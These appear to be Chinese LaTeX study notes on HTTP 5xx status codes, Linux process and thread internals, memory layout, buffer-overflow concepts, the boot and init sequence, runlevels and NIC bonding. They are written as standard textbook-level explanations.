这类状态码代表了服务器在处理请求的过程中有错误或者异常状态发生,也有可能是服务器意识到以当前的软硬件资源无法完成对请求的处理。除非这是一个HEAD请求,否则服务器应当包含一个解释当前错误状态以及这个状况是临时的还是永久的解释信息实体。浏览器应当向用户展示任何在当前响应中被包含的实体。

这些状态码适用于任何响应方法。

500 Internal Server Error
服务器遇到了一个未曾预料的状况,导致了它无法完成对请求的处理。一般来说,这个问题都会在服务器的程序码出错时出现。

501 Not Implemented
服务器不支持当前请求所需要的某个功能。当服务器无法识别请求的方法,并且无法支持其对任何资源的请求。

502 Bad Gateway
作为网关或者代理工作的服务器尝试执行请求时,从上游服务器接收到无效的响应。

503 Service Unavailable
由于临时的服务器维护或者过载,服务器当前无法处理请求。这个状况是临时的,并且将在一段时间以后恢复。如果能够预计延迟时间,那么响应中可以包含一个Retry-After头用以标明这个延迟时间。如果没有给出这个Retry-After信息,那么客户端应当以处理500响应的方式处理它。

504 Gateway Timeout
作为网关或者代理工作的服务器尝试执行请求时,未能及时从上游服务器(URI标识出的服务器,例如HTTP、FTP、LDAP)或者辅助服务器(例如DNS)收到响应。
注意:某些代理服务器在DNS查询超时时会返回400或者500错误。

505 HTTP Version Not Supported
服务器不支持,或者拒绝支持在请求中使用的HTTP版本。这暗示着服务器不能或不愿使用与客户端相同的版本。响应中应当包含一个描述了为何版本不被支持以及服务器支持哪些协议的实体。

506 Variant Also Negotiates
由《透明内容协商协议》(RFC 2295)扩展,代表服务器存在内部配置错误:被请求的协商变元资源被配置为在透明内容协商中使用自己,因此在一个协商处理中不是一个合适的重点。

507 Insufficient Storage
服务器无法存储完成请求所必须的内容。这个状况被认为是临时的。(WebDAV RFC 4918)

509 Bandwidth Limit Exceeded
服务器达到带宽限制。这不是一个官方的状态码,但是仍被广泛使用。

510 Not Extended
获取资源所需要的策略并没有被满足。(RFC 2774)

 
 
 
 
 
 

\input{Network/protocol-dns.tex}
\input{Network/protocol-ether.tex}
\input{Network/protocol-ip.tex}
\input{Network/protocol-tcp.tex}
\input{Network/protocol-udp.tex}
\input{Network/scapy.tex}
\input{Network/security.tex}
\input{Network/tunnel.tex}
%!Mode:: "TeX:UTF-8"
 \chapter{操作系统}

%!Mode:: "TeX:UTF-8"

\section{进程}

\subsection{进程与线程}
进程的四大特征:\textbf{动态性,并发性,独立性,异步性}。

进程与程序的关系:一个进程可以依次执行多个程序,多个进程可共同执行一个程序。

进程与线程的区别:
从内核的观点看,进程的目的就是担当分配系统资源(CPU时间、内存等)的基本单位。线程是进程的一个执行流,是CPU调度和分派的基本单位,它是比进程更小的能独立运行的基本单位。

进程是独立的,这表现在内存空间、上下文环境上;线程运行在进程空间内。一般来讲(不使用特殊技术),进程无法突破进程边界存取其他进程的存储空间;
而线程由于处于进程空间内,所有同一进程的线程共享同一内存空间。

线程是属于进程的,当进程退出时该进程所产生的线程都会被强制退出并清除。线程所占用的资源要少于进程所占用的资源。进程和线程都可以有优先级。

\textbf{多进程和多线程各有什么优缺点}?
进程优点:编程、调试简单,可靠性较高,适合多机、多核系统。\\
线程优点:创建、销毁、切换速度快,内存、资源占用小,数据共享简单,只适合多核系统。

\subsection{进程内存布局}
图\ref{fig:processmemlayout}为典型的内存布局(选择《APUE》)。
\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Kernel/programMemLayout.png}
	\caption{进程的典型内存布局示例}
	\label{fig:processmemlayout}
	\end{center}
\end{figure}

《CSAPP》给出的内存布局如图\ref{fig:processmemlayout-csapp}所示。
\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth,angle=270]{Pictures/Kernel/process-mem-csapp.pdf}
	\caption{进程的典型内存布局示例}
	\label{fig:processmemlayout-csapp}
	\end{center}
\end{figure}

图 \ref{fig:processmemlayout-csdn}是从CSDN上找到的:
\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Kernel/LinuxCppMemLayout3.png}
	\caption{进程的典型内存布局示例}
	\label{fig:processmemlayout-csdn}
	\end{center}
\end{figure}


最高地址区域又叫内核虚拟存储器,是用户代码不可见区域。
ESP指向栈顶,通过brk/sbrk系统调用扩大堆,向上增长。
小于0x0804 8000为保留区域,进而是只读段。
在glibc实现的内存管理算法中,Malloc小块内存是在小于0x4000 0000的内存中分配的,通过brk/sbrk不断向上扩展,而分配大块内存,malloc直接通过系统调用mmap实现,分配得到的地址在文件映射区,所以其地址大于0x4000 0000。
值得注意的是,字符串字面值(如"Hello World")存储在代码段(只读段)。

图\ref{fig:processmemlayout-csapp}所描述的模型无法适用于多线程环境。
按图\ref{fig:processmemlayout-csapp}所述,程序最多拥有上GB的栈空间,事实上,在多线程情况下,能用的栈空间是非常有限的, 可能只有几MB,超这个范围就会造成栈溢出。
线程的堆栈一般都是在线程创建的时候就固定分配好了的,线程切换的时候需要保存的是栈顶指针。
Windows线程的缺省堆栈大小为1M,Linux默认8M。

同一个进程中的多个线程,它们的内存空间是共享的(栈除外),在一个线程修改的内存内容,对所有线程都生效。这是一个优点也是一个缺点。说它是优点,线程的数据交换变得非常快捷。说它是缺点,一个线程死掉了,其它线程也性命不保; 多个线程访问共享数据,需要昂贵的同步开销,也容易造成同步相关的BUG。

线程间共享:地址空间,全局变量,打开文件,子进程,即将发生的报警,信号与信号处理程序,账户信息。线程私有:\textbf{程序计数器,寄存器,堆栈,状态}。
和传统进程一样(即只有一个线程的进程),线程可以处于若干种状态的任何一个:运行、阻塞、就绪或终止。 
线程自己的堆栈往往属于进程堆栈的一部分,thread switch时通常无需专门进行保存。thread switch时,往往只需要保存寄存器信息,故switch的开销较小。

\subsection{Linux进程结构}
files\_struct结构保存了进程打开的所有文件表数据,描述一个正被打开的文件。

struct file文件结构体代表一个打开的文件,系统中的每个打开的文件在内核空间都有一个关联的struct file。它由内核在打开文件时创建,并传递给在文件上进行操作的任何函数。在文件的所有实例都关闭后,内核释放这个数据结构。在内核创建和驱动源码中,struct file的指针通常被命名为file或filp。struct file包含的struct file\_operations成员包含着与文件关联的操作,如seek,read,write。

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/Kernel/LinuxFdArrayInFileStruct.png}
	\caption{file\_struct中的fd数组}
	\label{fig:LinuxFdArrayInFileStruct}
	\end{center}
\end{figure}

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/Kernel/LinuxProcessAndVFS.png}
	\caption{进程与VFS的交互}
	\label{fig:LinuxProcessAndVFS}
	\end{center}
\end{figure}

\subsection{Linux线程模型}

线程的实现分为两种方式,多对一模型和一对一模型。
多对一模型下,内核对线程无知,以进程为调度单位,而线程调度是由用户进程完成的,可理解成进程将内核分配给自己的时间片二次分配给自己的线程。
此设计缺点明显:线程的阻塞导致进程阻塞。
一对一模型下,内核以线程为单位进行调度,LinuxThreads和NPTL均使用一对一模型。

LinuxThread使用clone系统调用来产生“线程”,这里的线程虽符合轻量进程的定义, 但它又具备了进程的若干特性,如拥有独立的进程id和信号机制等等。
内核在进行调度时,仍然按照传统的进程调度机制,在这个意义上,是将“线程”当作进程来处理的,内核对线程并无特殊支持。

 LinuxThreads 设计的一些局限性:
 \begin{itemize}
 \item 由于它是围绕一个管理线程来设计的,因此会导致很多的上下文切换的开销,这可能会妨碍系统的可伸缩性和性能。
 由于管理线程只能在一个 CPU 上运行,因此所执行的同步操作在 SMP 或 NUMA 系统上可能会产生可伸缩性的问题。
 \item 由于线程的管理方式,以及每个线程都使用了一个不同的进程 ID,对信号的处理是按照每线程的原则建立的, 因此 LinuxThreads 与其他与 POSIX 相关的线程库并不兼容。
 \item 由于内核实际上将线程“认作”进程,因此针对进程的诸多限制也被应用在线程上,比如可用进程总数等, /proc下也有大量进程项对应线程。
 \end{itemize}

NPTL,或称为 Native POSIX Thread Library,是 Linux 线程的一个新实现,它克服了 LinuxThreads 的缺点,同时也符合 POSIX 的需求。
与 LinuxThreads 相比,它在性能和稳定性方面都提供了重大的改进。自2.6内核以来,NPTL取代LinuxThreads成为了新的Linux线程标准。

NPTL使用了跟LinuxThread相同的办法,在内核里面线程仍然被当作是一个进程,并且仍然使用了clone()系统调用(在NPTL库里调用)。
但是,NPTL需要内核级的特殊支持来实现,比如需要挂起然后再唤醒线程的线程同步原语futex。

与 LinuxThreads 相比,NPTL 具有很多优点: NPTL没有使用管理线程。
管理线程的一些需求,例如向作为进程一部分的所有线程发送终止信号,是并不需要的;因为内核本身就可以实现这些功能。
内核还会处理每个线程堆栈所使用的内存的回收工作。它甚至还通过在清除父线程之前进行等待,从而实现对所有线程结束的管理,这样可以避免僵尸进程的问题。
由于 NPTL 没有使用管理线程,因此其线程模型在 NUMA 和 SMP 系统上具有更好的可伸缩性和同步机制。

\subsection{Thread-local storage}
Thread-local storage (TLS) 指“局部”于线程的静态/全局地址位置,实际上是说当多个线程引用同一静态/全局变量时,实际上是引用了不同的地址位置。

Windows API和Pthread均提供了操纵TLS变量的接口。C++11 引人了thread\_local 关键词,定义TLS变量,此外,gcc使用如\verb$__thread int number;$语法定义TLS。
Python如此使用TLS:

\begin{lstlisting}[language=Python]
import threading
mydata = threading.local()
mydata.x = 1
\end{lstlisting}

\subsection{进程同步}
进程同步是一个操作系统级别的概念,是在多道程序的环境下,存在着不同的制约关系,为了协调这种互相制约的关系,实现资源共享和进程协作,从而避免进程之间的冲突,引入了进程同步。

进程同步的机制有:
\begin{itemize}
\item 信号量
\item 自旋锁
\item 原子操作
\item 管程
\item 会和
\item 分布式系统
\end{itemize}

管程 (英语:Moniters,也称为监视器) 是一种程序结构,结构内的多个子程序(对象或模块)形成的多个工作线程互斥访问共享资源。这些共享资源一般是硬件设备或一群变量。管程实现了在一个时间点,最多只有一个线程在执行管程的某个子程序。与那些通过修改数据结构实现互斥访问的并发程序设计相比,管程实现很大程度上简化了程序设计。
管程提供了一种机制,线程可以临时放弃互斥访问,等待某些条件得到满足后,重新获得执行权恢复它的互斥访问。
东尼·霍尔证明了这与信号量是等价的。在编程语言Concurrent Pascal,Pascal-Plus,Modula-2,Modula-3,Mesa以及Java中都提供这个功能。

一个管程包含:多个彼此可以交互并共用资源的线程,多个与资源使用有关的变量,一个互斥锁,一个用来避免竞态条件的不变量。
一个管程的程序在运行一个线程前会先取得互斥锁,直到完成线程或是线程等待某个条件被满足才会放弃互斥锁。若每个执行中的线程在放弃互斥锁之前都能保证不变量成立,则所有线程皆不会导致竞态条件成立。

当一个线程执行管程中的一个子程序时,称为占用(occupy)该管程. 管程的实现确保了在一个时间点,最多只有一个线程占用了该管程。这是管程的互斥锁访问性质。

\subsection{僵尸进程}
在UNIX 系统中,一个进程结束了,但是他的父进程没有等待(调用wait/waitpid)他, 那么他将变成一个\textbf{僵尸进程}。
系统调用exit,它的作用是使进程退出,但也仅仅限于将一个正常的进程变成一个僵尸进程,并不能将其完全销毁。
即使是root身份kill-9也不能杀死僵尸进程。
补救办法是杀死僵尸进程的父进程(僵尸进程的父进程必然存在),僵尸进程成为"孤儿进程",过继给1号进程init,init始终会负责清理僵尸进程。
在Linux进程的状态中,僵尸进程是非常特殊的一种,它已经放弃了几乎所有内存空间,没有任何可执行代码,也不能被调度,仅仅在进程列表中保留一个位置,
记载该进程的退出状态等信息供其他进程收集,除此之外,僵尸进程不再占有任何内存空间。
僵尸进程占用了进程号资源,同时记录着进程的退出状态、进程运行的CPU时间等。

为避免僵尸进程,父进程可以用signal函数为SIGCHLD安装handler,因为子进程结束后, 父进程会收到该信号,可以在handler中调用wait回收;
也可以用signal(SIGCHLD,SIG\_IGN) 通知内核,自己对子进程的结束不感兴趣,那么子进程结束后,内核会回收,并不再给父进程发送信号。

\subsection{进程通信}
共享存储系统、消息传递系统、管道(以文件系统为基础)。

信号的处理方式包括:忽略,捕捉(调用用户函数),执行默认动作。
有两种信号不能忽略:SIGKILL,SIGSTOP。它们向超级用户提供了使进程终止或停止的可靠方法。

\subsection{协程与线程的区别}
1. 协程并非os线程,所以创建、切换开销比线程相对要小。
        2. 协程与线程一样有自己的栈、局部变量等,但是协程的栈是在用户进程空间模拟的,所以创建、切换开销很小。
        3. 多线程程序是多个线程并发执行,也就是说在一瞬间有多个控制流在执行。而协程强调的是一种多个协程间协作的关系,只有当一个协程主动放弃执行权,另一个协程才能获得执行权,所以在某一瞬间,多个协程间只有一个在运行。
        4. 由于多个协程时只有一个在运行,所以对于临界区的访问不需要加锁,而多线程的情况则必须加锁。
        5. 多线程程序由于有多个控制流,所以程序的行为不可控,而多个协程的执行是由开发者定义的所以是可控的。


\clearpage

















%!Mode:: "TeX:UTF-8"
\section{栈溢出和堆溢出}

A thread's assigned stack size can be as small as a few dozen kilobytes. Allocating more memory on the stack than is available can result in a crash due to stack overflow.

\begin{figure}[ht]
	\begin{center}
		
\includegraphics[keepaspectratio,width=0.3\paperwidth]{Pictures/LinuxUserStack.png}
	\caption{用户栈顶端}
	\label{fig:LinuxUserStack}
	\end{center}
\end{figure}

栈和堆溢出的一个共性就是第三方可以完全依靠提供特定数据实现代码级别的入侵。
堆溢出执行恶意代码的一种情况是通过过长的数据破坏堆管理记录结构,使下次申请能得到保存某些特定函数指针的位置,然后进行修改。
此外,由于字符串处理函数(gets,strcpy等等)没有对数组越界加以监视和限制,我们利用字符数组写越界,覆盖堆栈中的老元素的值,就可以修改返回地址。 

gets函数(\verb$char *gets(char *s);$)和fgets(\verb$char *fgets(char*, int, FILE*);$)函数最大的不同是gets函数的缓冲区虽然由用户提供,但是用户无法指定其一次最多读入多少字节的内容。这一点导致gets变成了一个非常危险的函数。

有时,堆和栈的溢出分别指内存空间的耗尽。
递归可能会导致栈耗尽,内存泄露会导致堆耗尽。
 
\clearpage
%!Mode:: "TeX:UTF-8"
\section{Linux启动过程}


\subsection{BIOS}
BIOS是英文"Basic Input Output System"的缩略语,它是一组固化到计算机内主板上一个ROM芯片上的程序,它保存着计算机最重要的基本输入输出的程序、系统设置信息、开机后自检程序和系统自启动程序。 其主要功能是为计算机提供最底层的、最直接的硬件设置和控制。

\textbf{Bootloader即引导装入程序},是由BIOS用来把操作系统内核镜像装载到RAM中所调用的一个程序。
它在系统上电时开始执行,初始化硬件设备、准备好软件环境,最后调用系统内核。
Linux在x86下的引导装入程序有Linux Loader(LILO)和GRUB,GRUB更高级,本文假定使用LILO。

硬盘的第一个扇区称为MBR(Master Boot Record),该扇区包含一个分区表和一个小程序,这个小程序用来装载被启动的操作系统所在分区的第一个扇区。Windows 98使用分区表中的active标志来标示活动分区,只有内核镜像存在活动分区中的操作系统才可被启动。而Linux的处理方式更为灵活,用一个Bootloader取代这个MBR中不完善的程序,允许用户来选择要启动的操作系统。
LILO或许在MBR上,取代了那个小程序,或许被装在每个分区的引导扇区上。

用户选择引导Linux后,LILO调用BIOS例程打印“Loading”信息,从磁盘读取内核镜像。
\verb$setup()$函数的代码在内核镜像文件的0x200处,LILO装载完内核镜像后会跳转到\verb$setup()$函数处。
\verb$setup()$最终跳转到\verb$startup_32()$函数处。

\verb$startup_32()$函数有两个,依次执行。
其中第二个\verb$startup_32()$会创建被称作进程0的内核线程(又称\textbf{idle进程或swapper进程})。进程0是内核的一部分,不执行任何磁盘程序。
进程0调用\verb$start_kernel()$。

\verb$start_kernel()$初始化内核所需的所有数据结构(此前只有少数几个数据结构被建立),激活中断,创建一个叫进程1的内核线程,又叫\textbf{init进程}。
init进程执行\verb$init()$函数,\verb$init()$完成内核初始化。\verb$init()$函数调用\verb$execve()$装入可执行程序init,结果
init内核线程变成了一个普通进程,并拥有了自己的per-process内核数据结构。在系统关闭前,init进程一直存活,因为它创建和监控在操作系统外层执行的所有进程的活动。

\subsection{init进程}

系统加电之后,首先进行的硬件自检,然后是bootloader对系统的初始化,加载内核。
内核被加载到内存中之后,就开始执行了。
一旦内核启动运行,对硬件的检测就会决定需要对哪些设备驱动程序进行初始化。
从这里开始,内核就能够挂装根文件系统。
内核挂装了根文件系统,并已初始化所有的设备驱动程序和数据结构等之后,就通过启动一个叫init的用户级程序,完成引导进程。

由0号进程创建1号进程(内核态),1号负责执行内核的部分初始化工作及进行系统配置,并创建若干个用于高速缓存和虚拟主存管理的内核线程。随后,1号进程调用execve()运行可执行程序init,并演变成用户态1号进程,即init进程。它按照配置文件/etc/initab的要求,完成系统启动工作,创建编号为1号、2号...的若干终端注册进程getty。每个getty进程设置其进程组标识号,并监视配置到系统终端的接口线路。当检测到来自终端的连接信号时,getty进程将通过函数\verb$execve()$执行注册程序login,此时用户就可输入注册名和密码进入登录过程,如果成功,由login程序再通过函数\verb$execve()$执行shell,该shell进程接收getty进程的pid,取代原来的getty进程。再由shell直接或间接地产生其他进程。

上述过程可描述为:0号进程->1号内核进程->1号内核线程->1号用户进程(init进程)->getty进程->shell进程。


\subsection{init程序}

init是 Unix 和 类Unix 系统中用来产生其它所有进程的程序。它以守护进程的方式存在,其进程号为1。

BSD init 运行存放于'/etc/rc'的初始化 shell 脚本,然后启动基于文本模式的终端(getty)或者基于图形界面的终端(窗口系统,如 X)。
这里没有运行模式的问题,因为文件 'rc' 决定了 init 如何执行。

现代的 BSD 派生系统一直支持使用 'rc.local'
文件的方式,它将在正常启动过程接近最后的时间以子脚本的方式来执行。这样做减少了整个系统无法启动的风险。然后,第三方软件包可以将它们独立的 start/stop 脚本安装到一个本地的 'rc.d' 目录中(通常这是由 ports collection/pkgsrc 完成的)。 FreeBSD 和 NetBSD 现在默认使用 rc.d ,该目录中所有的用户启动脚本,都被分成更小的子脚本,和 SysV 类似。

System V init 检查 '/etc/inittab' 文件中是否含有 'initdefault' 项。 这告诉 init
系统是否有一个默认运行模式。如果没有默认的运行模式,那么用户将进入系统控制台,手动决定进入何种运行模式。

systemd意欲取代System V和BSD风格的init的程序。
在RHEL6中采用的init程序为upstart。在RHEL7中开始采用systemd。

   
\subsection{运行级别}
\begin{itemize}
  \item 0为停机,机器关闭。 
  \item 1为单用户模式,就像Win9x下的安全模式类似。 
  \item 2为多用户模式,但是没有NFS支持。 
  \item 3为完整的多用户模式,是标准的运行级。除了需要在登录后手动启动图形界面外,与级别5相同。
  \item 4一般的发行版没定义这个级别。
  \item 5就是X11,进到X Window系统了。 
  \item 6为重启,运行init 6机器就会重启。 
\end{itemize}
在Ubuntu 14.04上尝试进入级别2,3,4,5均处于X11界面,进入级别1系统退出并卡死。

查看运行级别命令:
 \begin{verbatim}
 runlevel
\end{verbatim}
先后显示系统上一次和当前运行级别。如果不存在上一次运行级别,则用N表示。在Ubuntu上运行结果为“N 2”。

改变提供运行级别命令:
 \begin{verbatim}
 init [0123456]
\end{verbatim}


    
\subsection{内核线程}
除了idle和init进程之外,其他内核线程包括:
\begin{description}
  \item[keventd] 执行\verb$kevent_wq$工作队列中的函数。
  \item[kapmd] 处理与APM(高级电源管理)相关的事件。
  \item[kswapd] 执行内存回收。
  \item[pdflush] 刷新脏内存的内容到磁盘以回收内存。
  \item[kblockd] 执行\verb$kblockd_workqueue$工作队列中的函数。它周期性激活块设备驱动程序, 因为一些需要激活驱动程序的work已被延迟以求提高性能。
  \item[ksoftirqd] 每个CPU都有一个ksoftirqd,运行tasklet。
\end{description}




















    
    
    
    
    
    
    
    
    
    
    
    
    

%!Mode:: "TeX:UTF-8"

\section{Linux Bonding}


Linux的多网卡绑定技术是在网卡驱动程序之上、数据链路层之下实现的一个虚拟层,它将多个网卡虚拟成一块虚拟网卡,所以多网卡绑定驱动程序实际上是一种中间驱动程序,是基本驱动程序与网络协议栈之间的接口。


\begin{figure}

\includegraphics[keepaspectratio,width=0.4\paperwidth]{Pictures/LinuxBondingDriver.pdf} 
\caption{Linux多网卡绑定原理图}
 \label{fig:LinuxBondingDriver}
\end{figure}



目前Linux现有的多网卡绑定驱动共有七种传输模式(算法),依次是:轮转模式、热备份模式、异或模式、广播模式、动态链路聚合模式、自适应传输负载平衡模式、自适应负载平衡模式。\textbf{其中最常用的是模式0、1和6。}

在轮转算法中所有优先级相同的网卡设备维持在一个循环队列中,队列的每个节点(网卡)具有相同的地位,多网卡绑定驱动在这些网卡设备中顺序轮流选择,队列中所有的成员公平分享所有的传输任务。轮转算法的适用面最广,轮转模式适用于绑定驱动中所有节点的处理能力和性能均相同的情况,如适用相同类型的网卡。它的算法思想虽然很简单,但传输能力和传输效率是最好的,不过需要交换机支持,如果交换机未配置链路聚合,则会发生MAC地址表的动荡,在配置了链路聚合后不会出现,发出数据包的MAC为虚拟网卡Bond0的MAC,限制了它的一些应用场合。

模式1的热备份算法可以用来提高服务器的高可用性,在主网卡失效的情况下,备用网卡可以接替主网卡继续工作,但是网卡的利用率只有1/N,效率较低。
    
模式6的平衡负载模式,有自动备援,无需交换机特殊配置,即可实现负载均衡,它们的动态负载均衡方式可以根据绑定设备中网卡的负载状态来动态的分配传输任务,主要适用于服务器拥有四块及四块以上网卡的情况。

%!Mode:: "TeX:UTF-8"
\section{守护进程}

\textbf{守护进程是脱离于终端并且在后台运行的进程}。
